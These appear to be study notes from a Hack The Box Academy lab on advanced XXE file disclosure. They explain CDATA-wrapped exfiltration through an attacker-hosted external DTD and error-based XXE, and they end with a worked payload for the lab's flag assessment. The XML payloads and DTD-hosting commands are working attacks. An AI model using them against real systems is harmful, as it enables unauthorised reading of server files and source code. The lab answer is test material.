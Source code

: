 ```yaml
---
description: >-
  Some file formats may not be readable through basic XXE, while in other cases,
  the web application may not output any input values in some instances
---
```


# Advanced File Disclosure

## Advanced Exfiltration with CDATA

As discussed in [local-file-disclosure.md](local-file-disclosure.md "mention") we can use PHP filters to encode PHP source files to not break XML format.

For other Web Application we can use CDATA tag to extract data for any web application backend. Using this tag (`<![CDATA[ FILE_CONTENT ]]>`) the XML parser will think that it is raw data and contain any type of data

Steps:

1. define `begin` internal entity with `<![CDATA[`
2. define `end` internal entity with `]]>`
3. place external entitiy file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

<mark style="color:red;">**This will not work since XML prevents joining internal and external entities**</mark>

if we reference `XML Parameter Entities (starts with %)` from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

**Attack machine**

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

**Request body**

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg" alt=""><figcaption><p>view info without encode to base64</p></figcaption></figure>

## Error Based XXE

`Semi blind XXE` -> web application might not write any output, so we cannot control any of the XML input entities to write its content

We can use runtime errors (PHP errors) or exception to display the info.

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg" alt=""><figcaption><p>Send malformed XML</p></figcaption></figure>

we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity

The web app displayed errorand revealed web server directory.&#x20;

To exploit we host DTD that contains

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

payload defines the `file` parameter entity and then joins it with an entity that does not exist.

the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error

**call our external DTD script, and then reference the `error` entity**

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg" alt=""><figcaption><p>got the contents in error</p></figcaption></figure>

**this method is not as reliabl**e as the previous method for reading source files, as **it may have length limitations**, and certain **special characters may still break it**.

## Assessment

Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.14.5:8000/xxe.dtd">
  %xxe;
]>
<root>
<name></name>
<tel></tel>
<email>&joined;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

